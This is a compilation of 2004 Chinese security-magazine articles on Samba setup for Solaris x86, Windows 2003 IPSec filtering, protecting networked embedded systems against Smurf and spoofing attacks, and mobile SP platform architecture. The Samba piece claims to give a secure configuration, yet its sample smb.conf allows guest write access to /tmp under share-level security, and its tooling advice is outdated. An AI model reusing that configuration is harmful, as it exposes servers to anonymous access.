# 黑客防线2004合订本（一）第二部分

---

# Solaris 8 x86 上实现 Windows 平台安全共享
——Samba 安全配置

刘流：关于 Samba 的实现，在网上是多如牛毛的；然而，这些文献，多是讲述如何在 Linux、FreeBSD 下实现 Samba，而在 Solaris x86 上如何实现 Samba 以及安全配置，却是很少见到详实的。具体的文章，虽然都说是 *nix 平台，但实际上，在 Solaris x86 上实现 Samba 和 Linux、FreeBSD 还是有很大的区别的，鉴于很多大企业有不少服务器是 Solaris x86，故我们特别约请了富有 Solaris 经验的作者撰写本文，希望对有那些需求的网管们有所帮助。

- 适合对象：网络管理员、*nix 系统、*BSD 系统研究员
- 前置知识：*NIX 使用经验及其相关网络技术

文／hardi（中国黑客联盟）

谈到资源共享，人们总是认为同一平台下的资源可以相互复制、粘贴、修改。在 Windows 平台下我们就不用说了，在 Linux/Unix 下可以 mount，但是在 Linux/Unix 和 Windows 的平台要实现相互访问则有两条途径，一个是通过 FTP 来实现文件的上传和下载，第二个就是通过 Samba 这个程序来实现。对于 FTP 来说，大多数人总是觉得没有直接从网上邻居操作舒服吧？而且现在的 FTP 不是很安全，前段时间 WU-FTP 不是还有个漏洞出来吗？那些系统自带的 FTP 就更不用说了吧！所以从安全性考虑还是用 Samba！我想 Samba 这个东西很多人都听过的，但是深入了解的并不多。

Samba 是由 Andrew Tridgell 开发并用于与 Windows 用户沟通。我们可以将 SMB（Server Message Block，服务器信息块）看作是局域网上的共享文件／打印机的一种协议，它可以为网络内部的其它 Windows 和 Linux 机器提供文件系统、打印服务或是其它一些信息。SMB 的工作原理让 NetBIOS（Windows 网络邻居通讯协议）与 SMB 这两种协议运行在 TCP/IP 的通信协议之上，且使用 NetBIOS nameserver 让用户的 Linux 机器可以在 Windows 的网络邻居上被看到，然后就可以和 Windows 的机器在网络上相互沟通、共享文件与服务了。

下面我们一起来看具体的过程。

> **注**
>
> 目前 wu-ftpd 的替代软件是 vsftpd 等，在安全性方面有很大的提高。

## SMB 安装

下载 Samba 的安装包，一般推荐去 www.samba.org，或者 www.sunfreeware.com 这两个网站去下载，但是由于知道的人太多，下载速度很慢。推荐一个好地方下载：ftp.wayne.edu。

我们在整个安装过程中要用到的有下面两个文件：samba-2.2.8a-sol8-intel-local.gz 和 popt-1.7-sol8-intel-local.gz。

Samba 是由 Andrew Tridgell 开发并用于与 Windows 用户沟通。我们可以将 SMB（Server Message Block，服务器信息块）看作是局域网上的共享文件／打印机的一种协议。

> **注意：**
>
> 这两个文件一定要下载下来，否则在运行 Samba 的时候会出错的，相信很多人都遇到过这个问题吧。

不知道大家的习惯是什么样的，我习惯把下载下来的东西放到 /tmp 文件夹里。

```bash
# cp samba-2.2.8a-sol8-intel-local.gz /tmp
# cd /tmp
# gzip -d samba-2.2.8a-sol8-intel-local.gz
# 解压缩
# pkgadd -d samba-2.2.8a-sol8-intel-local
# 包安装
```

在安装的过程中你一路回车就可以了，直到你看到下面的信息，就是安装完成了。

```text
Installation of <SMCsamba> was successful.
```

同样地安装 popt-1.7-sol8-intel-local.gz。

```bash
# cp popt-1.7-sol8-intel-local.gz /tmp
# cd /tmp
# gzip -d popt-1.7-sol8-intel-local.gz
# pkgadd -d popt-1.7-sol8-intel-local
```

看到：`Installation of <SMCpopt> was successful.` 就是安装完成了！

## 配置 Samba

配置 Samba 有两种方法，第一是完全在命令行下面来配置，修改 smb.conf 文件就可以了；第二是通过图形化界面来配置。先说纯命令行下的方式吧，但是刚刚装好的 Samba 如果你要运行，它会提示你说在 /usr/local/samba/lib 找不到 smb.conf 文件，怎么办？我们就在 /usr/local/samba/ 这里面随便找找看，在 /usr/local/samba/doc/samba/examples/simple 里发现有个 smb.conf，直接 cp 到 /usr/local/samba/lib 就可以了！找下一个最简单的配置就完成了，我们通过以下命令来启动 Samba 服务！

```bash
# ./nmbd -D
# ./smbd -D
```

为了彻底理解这个配置文件，我们先看一个比较经典的 smb.conf 文件：

```ini
[global]
workgroup = workgroup    ; 工作组名称
netbios name = ULTRA60   ; 本地服务器名称
security = share         ; 安全级别，这个参数控制 samba client 端如何响应 samba，这是相当重要的参数，默认的 security=user，当需要和 Windows 98 和 Windows NT 访问时这是个最常用的设置。
interfaces = 192.168.100.0   ; 主要网络接口 IP 地址，也可以定义多个接口，在这些接口上 samba 可以在所有的网络接口控制浏览。
log file = /usr/local/samba/log.%m
                          ; log 文件的存储位置
guest account = pcguest   ; guest 账号名称
hosts allow = 192.168.100.0/255.255.255.0
                          ; 这个选项可以控制哪些主机可以访问 samba 的资源，当然还有很多书写法，可以允许一台机器访问，也可以通过主机名称来限制访问权限。有兴趣可以通过 man 命令来看！

[homes]                   ; 配置的访问目录及用户
comment = Home Directories
path = /tmp               ; 访问目录
read only = No            ; 是不是只读访问
guest ok = Yes            ; guest 账号是否可以访问

[printers]                ; 设置关于打印机的设置
comment = All Printers
path = /usr/spool/samba   ; 打印池
print ok = Yes
browseable = No
```

当然，我们也可以根据具体的需求来写不同的配置文件：

```ini
[hardi]
comment = hardi
path = /home/samba/hardi
public = no
valid users = @group1, @group2, hardi
    ; 注意：我们事先已经用 useradd 和 groupadd 建立了一个叫 hardi 的用户和两个叫 group1、group2 的组，用 mkdir 建立 /home/samba/hardi 的文件夹。
write list = hardi
printable = no
    ; 这段配置的目的是让 group1 组和 group2 组的人能够看到，hardi 也可以访问，但只有 hardi 有写的权限。
```

再来看一个例子：

```ini
[public]
comment = Read Only Public
path = /home/samba/public
public = yes
read only = yes
```

建议一个公共的只读文件夹 public，所有人只读这个文件夹的内容。

这个 conf 文件只是我个人的配置了，大家看了上面的配置也可以按照自己的有些想法去配置，只要格式正确就可以了。

我们再来看看另一种配置的手法吧。它是通过 SWAT（Samba Web Administration Tool）来完成，也就是我们上文所说的使用图形用户界面（GUI）配置 Samba。

Samba 自带的 SWAT，在端口 901 上，是通过 inetd 作为一项服务来运行，可以在本地通过 Solaris 上运行浏览器管理 SWAT，也可以通过运行在 Microsoft Windows 上的浏览器进行远程管理。当然，前提是可以访问到 Samba 主机，并且 allow 项允许（就是我们在 samba.conf 文件的 [global] 项中的 hosts allow 子项中要允许这台机器访问）。

添加 SWAT 服务名映射端口，在 /etc/services 中加入 swat 的端口。

```bash
# vi /etc/services
swat    901/tcp
```

设置 /etc/inetd.conf，在 /etc/inetd.conf 中添加下面一行：

```bash
swat stream tcp nowait.400 root /usr/local/samba/bin/swat swat
```

想要使更改生效，必须使用下面的步骤重新启动 inetd 服务：

```bash
# ps -eaf | grep inetd
root   149     1  0 19:56:16 ?      0:01 /usr/sbin/inetd -s
# kill -HUP 149
```

然后就可以用 URL `http://target:901` 访问 SWAT，Samba 的所有设置功能在 GUI 里面都可以方便地实现。Samba 初始化访问要用 root 及密码访问（图 1）。

图 1

看到了这个东西就觉得很简单了吧？所有的配置都可以在这里搞定了，对不熟悉 VI 的人来说简直是个最好的东西了。

设置好了以后，我们在 Windows 的网上邻居里就可以看到这个机器的名字了，然后点进去，输入用户名和密码，一切就搞定了。

> **注意**
>
> 从 Windows 上登录的用户，密码要和 Samba 上用户的密码一致。

安全性来说，Samba 的密码在 Windows 上是明文的，所以很容易被监听，为了确保 Samba 的绝对安全，我们可以通过在 Samba 中使用 SSL 来实现，但是由于篇幅有限，我只列出配置的步骤，具体配置大家可以去买书看，毕竟在 Solaris 里配置 SSL 的文章是比较少的。

为编译带有 SSL 支持的 Samba，大体上必须执行下列步骤：

- 1. 得到、编译和安装 SSLeay。可以在站点 http://www.cryptsoft.com 处得到 SSLeay 的最新版本。在这个站点上也可以得到 SSLeay FAQ（常见问题）。在配置带有 SSL 支持的 Samba 之前必须进行这个步骤，否则无法编译 Samba。
- 2. 编译带有 SSL 支持的 Samba，并安装它。
- 3. 至少为你的 Samba 服务器，或者通过不安全的网络访问你的 Samba 服务器的客户设备，得到或者创建 X509 证书，这取决于你的需要。
- 4. 配置 Samba 使用 SSL，告诉 Samba 服务器证书以及私有密钥的位置，并设置其他需要的参数。
- 5. 理解和建立允许启用了 SSL 的 SMB 客户访问 Samba 的环境。

> **编后**
>
> 拿到此文后，编辑和一家企业的朋友联系了一下，因为他正好有 Solaris x86 的服务器，正在为在此平台上安装 Samba 而头疼，现在将本文给我那朋友看了后，按图索骥，在他的服务器上也成功了。所以，我将此文刊登，以飨同样受此问题困扰的广大网管朋友们。

## Windows 2003.net IPSec

### 配置全攻略

刘涛：Win2000 时代的服务器防范大多集中在系统中某方面程序的运用，比如常见的 IPSec。自从微软推出 Windows 2003 以来，在系统功能的各个方面都有了比较大的改进，原来 2000 系统下的很多处理方式也在发生改变，由此也带来了服务器市场的群起争霸。2003 给我们带来了哪些新的体验？哪些新的功能？哪些新的策略？最近几期我们都会围绕 Win2003 做相关的文章，希望能在第一时间给大家提供最新的技术资料、最好的解决方案！

- 适合对象：网络管理员、方案设计者
- 前置知识：IPSec 基础知识

文／图 netbug

在网上关于如何设置 IPSec 的东西实在很多，但都没讲清楚，由此造成很多朋友知道了怎么设置却不知道如何去实际灵活利用，常常丢掉 Windows 自带的 IP 策略去寻找第三方程序，其实，使用系统自带的 IPSec 可以非常方便地实现一些常用的安全防护，完全不需要用其他程序来加重网络和系统的负担！最新的 Windows 2003.net 就给我们提供了使用方便、功能强大的 IPSec，今天我将全面向大家介绍一下 IPSec 的应用，让你迅速成为一个安全专家！

### IPSec 基本定义和功能

“Internet 协议安全性（IPSec）”是一种开放标准的框架结构，通过使用加密安全服务以确保在 Internet 协议（IP）网络上进行保密而安全的通信。它本来的设计初衷是：

- 1. 保护 IP 数据包的内容。
- 2. 通过数据包筛选及受信任通信的实施来防御网络攻击。

这两个目标都是通过使用基于加密的保护服务、安全协议和动态密钥管理来实现的。这个基础为专用网络计算机、域、站点、远程站点、Extranet 和拨号用户之间的通信提供了既有力又灵活的保护。它甚至可以用来阻碍特定通信类型的接收和发送。

IPSec 基于端对端的安全模式，在源 IP 和目标 IP 地址之间建立信任和安全性。考虑认为 IP 地址本身没有必要具有标识，但 IP 地址后面的系统必须有一个通过身份验证程序验证过的标识。只有发送和接收的计算机需要知道通信是安全的。每台计算机都假定进行通信的媒体不安全，因此在各自的终端上实施安全设置。除非两台计算机之间正在进行防火墙类型的数据包筛选或网络地址转换，否则仅从源向目标路由数据的计算机不要支持 IPSec。该模式允许为下列企业方案成功部署 IPSec：

- 1. 局域网（LAN）：客户端/服务器与对等
- 2. 广域网（WAN）：路由器对路由器以及网关对网关
- 3. 远程访问：拨号客户端以及从专用网络访问 Internet

从中我们可以看出，我们用 IPSec 可以用在两个主要的方面，但最常见的用法还是在对数据包作安全过滤，起到防火墙的作用。

### 了解防火墙的基本原理，为 IPSec 配置作铺垫

防火墙的基本作用就是对进出网络接口的数据包做过滤。过滤的基本原则是：

- 1. 总是默认允许数据包进出，除非我们规定哪些端口和 IP 被禁止。
- 2. 总是默认禁止所有的数据包进出，除非我们规定哪些端口和 IP 被允许。

前一种原则主要用在公司、网吧、局域网内部。当网管需要开放大多数功能，但需要屏蔽如：QQ、MSN 服务等特殊功能的时候可以采用；后一种主要用在对外服务、Internet 网络服务器上采用的办法——所以我们对服务器进行设置的时候事先就应该定好数据包的通信规则。这点和配置华为、思科等路由器包过滤的原则是一样的。

下面我们来看一个具体的例子：我们假设有一台 IBM 服务器 x255 完全裸露在 Internet 上，外层没有任何防火墙，我们采用“默认禁止”的原则来配置它：

- 1. 禁止所有的数据包通过。
- 2. 在前一条规则的基础上打开 FTP 和 WWW 服务。
- 3. 为了增强安全性，对外部屏蔽 ICMP 响应。采取这样的策略，当外部有人扫描我们的计算机的时候，普通的 ICMP 扫描无法返回信息，使用 SYN 刺探等方式只可以看到 21 和 80 两个端口开放，完全杜绝攻击者企图从其他端口进攻的想法。

下面我们来看 IPSec 的具体配置。

- 1. 通过 MMC 控制台启动“IP 安全策略”，开始进行配置。首先我们通过选择“创建新的 IP 策略”来创建新的策略（图 1）。

然后在下一步的对话框中取消“激活默认响应”这个选项框。很多网友都不知道为什么要取消，其实，IPSec 默认响应只在域模式或者隧道模式中才起作用，所以在数据包过滤中作用不是很大。

紧接着我们来编辑策略的属性，这是比较重要的地方，在这里我们需要添加两条行动规则：允许通过规则；禁止通过规则。允许通过规则对应（图 2）；禁止通过规则对应于上图中的“阻止”。这样就可以看到 IPSec 的管理规则缩小到只有两条了，允许的规则里面包含所有可以通过的数据包，禁止的数据包里面是对所有 IP 地址任何协议的屏蔽。这点大家需要注意，千万不要把所有的允许、禁止数据包放在一堆（图 3）。

最后就是对 IP 策略添加具体的数据包过滤。这些黑防都有很多相关文章，我就不多说明了。更多的细节大家可以看看下面的筛选规则：IPSec 需要在筛选器列表中指定的计算机之间同时有入站和出站筛选器。入站筛选器应用于传入通信。出站筛选器应用于离开计算机发往目标的通信。例如，如果计算机 A 要与计算机 B 安全地交换数据：（下转第 43 页）

## 防范网络攻击之互联网即时系统设计法

文／李汉强

引言：国内网络水平随着时代的发展获得了更进一步的发展，网络安全也逐渐被提上了核心议事日程，国内网络管理员的安全防范意识也大大地提高了。但是，现在国内的整体网络还是缺少系统的防御措施和安全方案，很多人只重视单调的攻击方法和防御方法，很明显是不对的，因为任何安全的防范措施都不是单一存在的，任何的入侵也都不是单一技术或技术的简单组合，所以，作为一个和网络打交道的人，需要准确地分析判断，才能拿出正确的解决办法！

- 适合对象：网络管理员、安全方案研究员
- 前置知识：网络安全系统知识

### 情况分析

网络的广泛使用引起了保护网络安全的重视和防范问题的出现，人们开始越来越关注网络安全，因为这就好像交通道路一样，保证道路畅通避免事故实在很重要。即时系统与互联网的接驳丰富了其应用的功能，但同时带来了遭受网络攻击的危险性。即时系统的设计中必须考虑对这些攻击的防范，因此很有必要增加消息验证机制和存取控制机制。本文将详细介绍这些攻击的常见形式和相对应的防范机制。

网络互联的导入无疑为嵌入式即时系统的发展提供了很多机会。这种互联技术通过简单地为外部浏览器提供网页，可以为小系统提供丰富的用户界面。这些单个系统有可能是一个大型系统整体的一部分，并共享那些单个设备所不可能拥有的资源和信息。由于能远程控制系统，并可远程改变参数和进行系统升级，因此可以在不到现场的条件下对软件升级或增加新的功能。

对于即时系统，网络互联带来新功能的同时，也带来了网络安全的问题，网络连接将可能影响那些缺乏保护或不能自主保护的即时系统的安全性。互联系统需要内置的保护机制，以“抵御”来自网络的各种攻击。因此，即时系统必须在不降低性能的前提下，增加这些保护功能。

### 常见的网络攻击形式

服务拒绝（DoS）——是网络系统常遭受的一种最低级的攻击。这种攻击的形式多种多样，但是基本上都是通过阻塞通信信息通道来实现攻击。在一些系统中，使网络连接过载也可导致缓冲溢出，从而引发系统崩溃。在即时系统中，另外一种可能的情况是通信任务独占 CPU 处理时间，降低系统处理其它系统任务的即时性能。

“Smurf”攻击——是一种典型的 DoS 攻击，该名称源自于最初实现这种攻击的一个程序。在“Smurf”攻击中，攻击者向网络发送广播“ICMP”（互联网控制消息协议）应答请求，而将返回地址指向目标系统。这些请求使网络目标主机产生响应，使目标系统通信信息通道上充斥大量无效消息，如图1所示。



图1 DoS攻击用大量来自所有主机的伪响应信息淹没目标系统。

为了使系统免遭“Smurf”攻击和其他攻击，即时系统可利用能过滤大量应答消息的路由器或防火墙实现网络互联。如果不具备这样的保护，那么嵌入式系统的“TCP/IP”堆栈应当具有这种保护功能，以过滤这些广播响应。请看下面的函数：

```c
int smurf_filter(const char *iph)
{
    /* Protect from Smurf attacks */
    if ((IPGET_PROTOCOL(iph) == IPPROTO_ICMP) &&
        (IPGET_DSTADDR(iph) == INADDR_BROADCAST))
    {
        return -1; /* Drop all broadcast pings */
    }
    return 0;
}
```

上面的函数将丢弃所有由广播应答请求所产生的传输流，因而抵御“Smurf”攻击。增加这些功能将略微增加“TCP/IP”堆栈的执行时间，但一般不会对系统的即时性能产生太大的影响。此外，实现联网的即时系统还很容易遭受网络中误传信息的攻击。网络上的所有传输流均是“可见”的，因此攻击者可以监视消息并获得相对应的IP地址和数据格式的信息。一旦获得这些信息后，攻击者就可以向嵌入式系统发送具有错误源地址和无效信息的“欺骗”消息。这些消息可以是有效消息的重复，也可以是具有有效帧格式、但数据被破坏的消息。这些消息对嵌入式系统的影响极大。当系统期望获得新的控制参数时，错误的消息将设定不期望的甚至不安全的参数值。如果系统正等待新的程序，那么错误消息影响系统操作的可能将大幅增加。

## 增加消息验证机制

为了防范无效消息，互联系统需要一套对接收消息进行验证的机制。而验证消息的最可靠方法是对消息及其源地址进行加密处理，只有真正发送该消息的一方才能成功地加密，因此正确解密的源地址才显示是有效的消息。

当然，攻击者仍然有可能发送能成功解密的无效消息。攻击者可以简单地截取并删除消息中的数据包，或拷贝并重新传送有效的消息数据包，目标系统可以解密消息并找到有效的源地址。然而，如果消息是程序，那么丢失或添加的数据包将使程序中出现混乱的代码，由此产生不可预知的后果。攻击者还可能截取数据包，改变其中的一些位，然后再传送至目的端。这时地址也许可以正确地解密，但代码却被破坏掉。

为了防范这些攻击，加密消息应对数据包编号并包含“散列（hashing）函数”。对数据包进行编号有助于接收端了解是否存在丢包或重复包，散列函数将会根据每个数据串内容产生特定的数值。如果解密消息包含有效的散列值，则显示该消息是完整的。

然而，这样的加密处理大幅增加了系统负担。加密用到的算法需要进行大量运算，采用多达168位的3-DES（数据加密标准）代码。而且，这些算法运行的速度必须足够快，能够与信息通道数据速率匹配，这无疑对即时系统的CPU资源提出了很高的要求。在200MHz的标准下运行，“RISC”处理器只能管理1至2Mbps的加密通信，这样留给系统即时处理的资源将是极为有限的。

对策：解决问题的方法有以下两种。第一种方法是在系统中添加安全协同处理器，如图2所示。



协同处理器可处理大量运算，并将加密后的数据传送至CPU。这种方法要求CPU具有处理不加密通信的能力，但需要添加额外的硬件。

第二种方法则使用具有内置加密功能的CPU，这些处理器包含加密扩展指令集，大幅提高了加密的速度，这样就能将更多CPU资源用于系统即时处理功能。

## 采用存取控制机制

然而，在互联的即时系统中仅采用加密还是不够的。加密可以保证消息的完整性并对消息的来源进行检验，但并不能保护系统免遭来自有效源端的恶意程序的攻击，而且导入恶意程序的途径也是多种多样。在那些希望处理第三方主控端的系统（如：游戏系统）中，源端系统本身可能就是发送恶意程序的伪装攻击者。同样，外部的攻击者也可破坏源端系统的安全性。如果攻击者对目标系统有了充分的了解，那么就能插入恶意程序，并加密下载至目标系统。

造成大多数电脑系统遭受破坏的安全问题都是来自内部，因为攻击者能存取目标系统所使用的CPU语言和即时操作系统（RTOS）中的信息。内部攻击者可轻松地制作恶意程序，并下载到互联的即时系统。为使互联设备免遭这些恶意程序的攻击，“RTOS”需要整合内部安全处理功能。

恶意程序破坏即时系统的手段很多。其中一种途径是简单地隐藏中断，然后退出，导致系统无法识别那些无效并且需要重新声明的中断，使利用中断驱动的即时功能将被终止。另一种途径是查询进程消息句柄（该句柄是用来指示信息的目标进程的识别号），然后采用该句柄发送虚假信息到其他的进程上，并导致这些进程行为错误。还有一种方式则是将感应数据（如：密码或金融数据）读出到系统内存，然后改变数据或将信息发送至第三方。

保护嵌入式系统的主要方法是改变“RTOS”，并对关键的系统功能提供基于优先级的存取控制机制。该机制为系统中的进程分配优先级，并根据该优先级决定调用处理程序是否具有存取特定系统资源的权利。

通过谨慎地选取优先级，系统设计人员可以设置“抵御”恶意程序攻击的内部屏障。例如，存取控制允许利用基于“PROM”部分编程的进程，而不通过下载程序实现中断屏蔽。类似地，“RTOS”可利用存取控制验证进程的有效性，并发送消息至另一进程，这限制了有效进程之间的通信。为了防止感应信息遭受破坏，“RTOS”可利用存取控制，为进程存取加密存储的数据提供方便。简单的内存读取将无法获取任何信息。在“RTOS”中插入存取控制可能会降低“RTOS”的即时性能，存取控制将增加每个系统调用在检验调用程序存取权限时的开销。其实单个系统调用产生的开销是微不足道的，但系统开销总累积的影响将不可忽略。

可惜的是，到目前为止，还没有已实现存取控制功能的商用“RTOS”，但初步的试验显示，可以通过精细的软件工程设计减少存取控制产生的负面影响。例如：在存取检验中，采用表格而非列表形式，将保证存取控制的有界性和确定性。开发人员在这样的条件下，可以很容易地调节存取控制的影响。

存取控制及“DoS”保护协议堆栈改变的影响，可以通过增加系统的时钟频率加以解决。加密则相对困难些，但采用协同处理器或专用的指令集将能解决这个问题。

当然，实现安全性能需要增加系统的成本，必须根据实际应用中增加安全性能的必要性和成本预算来做决策。

## 结束语

> 综上所述，网络的安全是保障系统正常运行的基石，在这几种解决方法核心技术的基础上，综合采用其他的安全手段和安全管理措施，才能够为网络提供一个可信、保密、稳定的环境，为网络的建设保驾护航。

## 移动梦网SP

## 接入平台网络安全解决方案



文／图 何伟

刘流：MONTERNET（移动梦网）是中国移动通信集团公司推出的无线数据增值业务的全国统一品牌，主要包括短信业务和WAP业务。移动梦网可以为用户提供更及时、丰富、多元化和个性化的信息服务，使用户的手机拥有更强大的功能，如通过手机进行购物、娱乐、传递图片、获取实时股市信息等等，使人们实现“无论何时何地，都若近在咫尺”的通信梦想。

移动梦网的出现大大地刺激了互联网的快速发展，移动支付和短信平台的出现使得“所有的商业模式被最大程度地激活，并释放出前所未有的激情”。这样，如何保证其安全性也就格外重要。本文就是针对移动梦网而做出的安全方案，希望可以给黑防的读者们带来更多收获。

- 适合对象：安全研究人员
- 前置知识：了解移动梦网，熟悉基本网络架构和平台

## 移动梦网SP接入平台描述

移动梦网接入平台是着眼于通过移动城域数据网的建设与移动CMNET-SC网络共同组成一个统一的多媒体通信网的承载平台，实现为多媒体通信网、网络控制层和应用层需要的电信级服务支撑平台的目标。这就决定了SP（服务供应商）接入平台的建设具有不同于一般的电信IDC建设中着重于互联网基础平台建设的特点。

由于本身的特点，所以需要在建设的开始阶段对网络承载部分的接入层、媒体层等的建设策略和措施进行完善的规划，在网络承载平台的建设实施过程中，逐步整合多媒体业务的主要应用，提供多媒体综合业务的主体业务种类、功能、容量和质量的全面保证，所以在建设之初必须考虑整体网络安全结构。

> **什么是IDC**
>
> IDC英文全称为Internet Data Center，即互联网数据中心。因特网数据中心是入驻企业、商户或网站服务器群托管的场所，是各种模式电子商务赖以安全运作的基础设施，也是支撑企业及其商业联盟实施价值链管理的平台。人们也将它比喻成“数码大厦”。

## 移动及SP接入平台整体网络结构

移动梦网SP接入平台的整体网络层次采用3层结构：核心层、分发层和接入层，网络结构拓扑图如图1所示：

SP接入平台在Internet连接层和网络核心层上利用城域数据网；在分布层使用L4千兆以太交换设备，具有千兆和百兆交换接口；接入层使用L2百兆以太交换设备。这样使SP接入平台在网络层次上与城域数据网的各分节点处于同一层次，而且SP接入平台目前网络流量大部分为移动梦网接入平台内产生，即通过数据枢纽内的VoIP、VPN以及专线接入等设备传输过来的移动GSM/WAP/GPRS/专用业务等类型的业务数据，其余的考虑为来自于外部网络接入平台。

